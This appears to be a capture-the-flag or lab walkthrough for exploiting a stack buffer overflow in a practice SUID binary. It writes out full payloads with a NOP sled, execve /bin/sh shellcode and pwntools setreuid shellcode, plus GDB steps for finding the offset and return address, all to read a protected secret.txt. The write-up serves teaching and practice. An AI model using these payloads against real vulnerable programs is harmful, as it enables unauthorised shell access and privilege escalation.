

For this overflow we are going to instead try to attack the function return pointe on the binary buffer-overflow in the overflow-3 folder, which is located somewhere in the stack. Our intent here is to over-write an instruction pointer in the stack to tell it to execute a memory address other than the one it intends to. We are going to point it at some of our own code, which we will also include in the payload, allowing us to run whatever we can fit. The easiest way to do this is to fire up GDB with the command "gdb buffer-overflow". Once inside gdb, we can start fuzzing where the function pointer is by passing in large input strings like this:
run $(python -c "print 'A'*100")
Increment the number 100 by 10 at a time until the program crashes, and then start fishing around until we start seeing the SIGSEGV return address getting overwritten:
As visible in the above picture, around 160 (this may be different for you slightly) we see our "41"s(Hex value for 'A') starting to enter our pointer. As our memory addresses in GDB are 6 bytes, we need 6 bytes of overlap here for our payload to work(eg. 414141414141) and point at a valid memory address. Fiddle with your quantities until we have 6 "41"s in your return address. If you are working on a system with larger memory addresses, this will also need to be more bytes. This is 158 As for me - Which will be the total size of our payload.
Keep in mind if you overshoot too much, your address may revert to 0s or its original value. Try to increment in small, consistent units after the first crash message. Something like 8 or 10 digit increments works best.
We'll begin crafting our payload, which is built in this fashion:
[NOP Sled][Shell Code][Random Data Buffer][Memory Address]
The core idea is to point the [Memory Address] block to a stack address somewhere in the middle of our NOP Sled block. NOP(No-Operation) operators will continually move to the next byte until they find a valid instruction, acting as a sled to our shell code so we do not need an exact address in case things shift around a little bit. The hex value for a NOP is x90, which will come up in our payload shortly.
The buffer is a mandatory small bit of separation after the shell code. It can be any length, but in my experience 8 is the minimum for shell code to work at all. I just use 12 most of the time.
A shell code is a hex-encoded command, often shell commands. These are OS and CPU architecture specific, and a good one to start with here is: \x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05
These can also be found at exploit-db under the shell codes tab.
Our total payload size needs to be equivalent to the number of As we found in our prior experimentation to work, so count the number of hex-bytes in your shellcode(You can toss this into a character counter and divide by 4 to quickly get the bytes, in our example it is 40), and subtract it off of your payload size. Since our payload size is 158, and our shell code is 40, we need 118 bytes of extra data. I will use 12 for my random data buffer, then we need our 6 bytes of memory address, leaving us a total of 100 bytes remaining that we will fill with NOPs. Since we don't know our memory address yet, I've just written 6 Bs.
We can build this conveniently using python:
$(python -c "print '\x90'*100+'\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + 'BBBBBB'")
In GDB type "run $(python -c "print '\x90'*100+'\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + 'BBBBBB'")" to test-execute this payload.
This will fail because BBBBBB is probably not a real memory address, but once it runs you can then type "x/100x $rsp-150" and dig around until(adjust the 150) until you see a block of "90"s. Record a memory address in the middle of the block, and add it to your payload. This system uses little endian format(Least significant byte first), so for the memory address 7fffffffeb8c as \x8c\xeb\xff\xff\xff\x7f
Our payload becomes:
$(python -c "print '\x90'*100+'\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x8c\xeb\xff\xff\xff\x7f'")
This *should* open a shell command when run in GDB, and if it does not, verify your memory address still lands in the middle of a NOP.
Now, this shell won't be able to access secret.txt... we've got two issues here.
1) You're still user1, as bash drops SUID when being entered in this manner for security reasons
2) You can't your payload outside of GDB, which prevents SUID from working to begin with
Our issue in #2 is that our stack addresses don't line up in GDB with regular usage as GDB adds some items to your stack.. So to make the payload work outside of GDB you need to start GDB as normal, and then run the commands:
unset env LINES
unset env COLUMNS
This will make GDB align with normal stack usage, and then we can re-run and find a working NOP address. Adjust your payload's memory address with a working one, and attempt to run it outside of GDB with the command
./buffer-overflow $(python -c "print '\x90'*100+'\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x8c\xeb\xff\xff\xff\x7f'")
Now, this should work, but *still* doesn't always carry over SUID permissions, and the problem is we need to specifically tell the system to make our effective user be equal to the SUID user. We do that with the command setREUID. You will need to grab user2's UID from /etc/passwd by typing cat /etc/password(Which ought to be 1002), and then generating some extra shell-code using pwntools.
Back in a regular terminal type:
pwn shellcraft -f d amd64.linux.setreuid 1002
It will generate a small amount of shellcode: \x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05, paste this to the front of your already existing shell-code, adjust your NOP sled size to keep the payload at exactly 158 bytes, and run again! You should now be able to type whoami and get user2.
cat secret.txt and the solution is yours!
Next challenge has the exact same process.